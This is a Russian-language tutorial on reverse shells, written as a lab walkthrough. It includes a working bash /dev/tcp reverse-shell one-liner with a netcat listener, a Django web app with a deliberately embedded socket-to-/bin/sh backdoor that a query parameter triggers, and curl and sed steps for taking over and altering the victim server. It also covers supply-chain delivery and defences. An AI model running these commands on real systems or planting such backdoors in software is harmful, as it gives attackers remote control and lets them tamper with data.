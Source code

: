 
# Reverse Shell

В этой статье рассказывается про уязвимость в программном обеспечении. Вся информация представления исключительно в образовательных целях.

Обратная оболочка - это удалённое выполнение кода в уязвимом приложении. Используя эту уязвимость злоумышленник заставляет жертву подключиться к атакующей машине. Она позволяет обойти правила брандмауэра, которые могут блокировать попытки входящего соединения к жертве. После установления соединения злоумышленник получает контроль над целевой машиной, доступ к файлами сервера и может совершить кражу данных.

Для иллюстрации приведём простой пример:
- Атакующий запускает на своём сервере прослушку входящих подключений на порту 8433:
	```
	# nc -lvnp 8433

	Listening on 0.0.0.0 8433
	```
- Жертва выполняет команду на своём сервере и подключается к атакующему серверу:
	```
	/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.127/8433 0>&1'
	```
    - 192.168.1.127 - адрес атакующего
    - 8443 - порт атакующего
    - Из чего состоит эта команда:
        - `bash -i`: Эта часть команды запускает интерактивную (-i) оболочку Bash.
        - `>&`: Эта часть команды представляет собой сокращенное обозначение для перенаправления стандартного вывода (stdout) и стандартной ошибки (stderr) в одно и то же место назначения.
        - `/dev/tcp/<ATTACKER-IP>/<PORT>`: Это специальный файл, представляющий собой TCP-соединение с указанным IP-адресом и портом.
            - Перенаправляя потоки вывода и ошибок в этот файл, команда отправляет вывод интерактивного сеанса оболочки на машину злоумышленника.
        - `0>&1`: Эта часть команды перенаправляет стандартный ввод (stdin) в тот же пункт назначения, что и стандартный вывод (stdout).
- Атакующий получает доступ к серверу жертвы. Он может выполнять любые команды от пользователя жертвы, например создать файл:
	```
	# echo "maliciouscode" > simplefile
	```
- Можно проверить на сервере жертвы, что файл создался:
	```
	# ls -lah simplefile

	-rw-rw-r-- 1 vagrant vagrant 14 May 26 10:43 simplefile
	```
	Файл создастся под тем пользователем, который запустил команду обратной оболочки.

## Python веб приложение

Приведём пример уязвимого веб приложения. Для этого используем простой Python код, в который уже встроен код обратной оболочки:
```
from distutils.log import error
import sys, socket,os,pty
from django.conf import settings
from django.urls import include, re_path
from django.http import HttpResponse

settings.configure(
    DEBUG=True,
    ROOT_URLCONF=__name__
)

def index(request):
    if ('ip' in request.GET):
        ip = request.GET['ip']
        e = connectshell(ip)
        return HttpResponse("Exception:" + str(e))
    else:
        return HttpResponse('Hello World!')

def connectshell(ip):
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((ip,4242))
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        pty.spawn("/bin/sh")
        s.shutdown(socket.SHUT_RDWR)
        s.close()
    except Exception as e:
        return str(e)

urlpatterns = (
    re_path(r'^$', index),
)

if __name__ == "__main__":
    from django.core.management import execute_from_command_line
    execute_from_command_line(sys.argv)
```
Комментарии к коду:
- `def index(request)`: эта функция обрабатывает входящие GET-запросы. Если запрос содержит параметр 'ip' в строке запроса URL, вызывается функция connectshell с указанным IP адресом. В противном случае возвращается простое сообщение `Hello World!`.
- `def connectshell(ip)`: эта функция пытается создать соединение с указанным IP адресом на порту 4242. В случае успеха она перенаправляет стандартные потоки ввода, вывода и ошибок на сокет и запускает оболочку (/bin/sh). Если возникло исключение, возвращается сообщение об ошибке.

При простом открытии главной страницы в браузере, это приложение выведет  текст Hello world.
Однако если передать в веб запросе параметр с IP адресом атакующего, то приложение создаст обратную оболочку и подключиться к машине атакующего. Оболочка запустятся с теми же привилегиями, что и сервер веб-приложения, а команды оболочки и ответные данные передаются по незашифрованному каналу на машину атакующего.

Выполним следующие шаги:
- Установим Django на компьютере жертвы:
	```
	pip install Django
	```
- Сохраним код веб приложения в файл index.py на компьютере жертвы
- Запустим веб приложение на компьютере жертвы:
	```
	python3 index.py runserver 0.0.0.0:8080
	```
	Обратите внимание, мы запускаем сервер прямо из консоли, в проде обычно используется отдельный веб сервер, проксирующий до веб приложения.  
Обратите внимания мы запустили сервер прослушивающий на всех сетевых интерфейсах (`0.0.0.0`). Чтобы проверить, что сервер запустился, можно в веб браузере зайти по адресу сервера и проверить, что открывается страница с `Hello world`.
- Запустим прослушивание входящих подключений на порту атакующего:
	```
	nc -lvnp 4242
	```
- Сделаем HTTP запрос на компьютер жертвы, который создаст обратное подключение на компьютер атакующего:
	```
	curl http://192.168.1.128:8080/?ip=192.168.1.127
	```
	Где: 192.168.1.128:8080 - адрес и порт веб приложения, 192.168.1.127 - адрес атакующего.  
Обратите внимание, инициировать и принимать подключение можно на двух разных компьютерах.
Обратите внимание, что в реальном мире серер может находиться за фаерволлом и NAT для ограничения доступа.
- Проверим пользователя запустившего приложение Django с компьютера атакующего:
	```
	Connection received on 192.168.1.128 38270
	$ id

	uid=1001(django) gid=1001(django) groups=1001(django)
	```
- Заменим текст в приложении с компьютера атакующего:
	```
	$ sed -i 's/Hello World/HACKED/g' index.py
	```
	Обратите внимания для того чтобы это сработало, нужно чтобы пользователь веб приложения имел доступ на запись к файлу.  
Можно проверить что начальная страница без параметров поменяла текст:
	```
	# curl 192.168.1.128:8080

	HACKED!
	```

## Как злоумышленник может использовать уязвимость

Способов доставки уязвимости в приложение может быть несколько:
- Злоумышленники могут внедрить вредоносный код в сторонние библиотеки, от которых зависит ваше приложение. После интеграции в приложение вредоносный код может создавать бэкдоры или реверсивные оболочки, давая злоумышленнику возможность закрепиться в системе.
- Также заражённым может быть не само приложение или его зависимости, а процесс доставки. Компрометация конвейера непрерывной интеграции/непрерывного развертывания (CI/CD) позволяет злоумышленникам внедрить вредоносный код до развертывания приложения. Неправильно настроенные инструменты или среды CI/CD могут быть направлены на незаметное внедрение уязвимости reverse shell.

## Как можно защититься

Способов для защиты от уязвимости может быть несколько:

- Проверять вводимые пользователем данные.
- Избегать выполнения системных команд с вводимыми данными.
- Регулярно проверять и обновлять сторонние библиотеки и зависимости в вашем приложении. Это можно интегрировать в процесс CI/CD.
- Использовать сканеры безопасности, которые сканируют код приложения, для выявления уязвимостей.
- Использовать системы обнаружения вторжений для отслеживания подозрительных действий.
- Регулярно проводить тестирование на проникновение.
- Внедрить коллективную проверку кода, чтобы выявлять вредоносный код до его слияния с базой.
- Настроить доступ к кодовой базе, CI/CD и средам разработки с использованием наименьших привилегий. Использовать надежную аутентификацию и авторизацию.
- Реализовать логирование для отслеживания команд, выполняемых приложением.
- Регулярно просматривать журналы аудита на предмет необычного поведения, указывающего на возможную компрометацию.

## Вывод

Мы показали как можно получить доступ к компьютеру жертвы и обойти возможные правила фаервола. А также описали как можно защититься от внедрения.



[Источник 1](https://ioflood.com/blog/bash-reverse-shell/)  

[Источник 2](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux)  

[Django reverse shell](https://github.com/appsecco/django-rev-shell)  
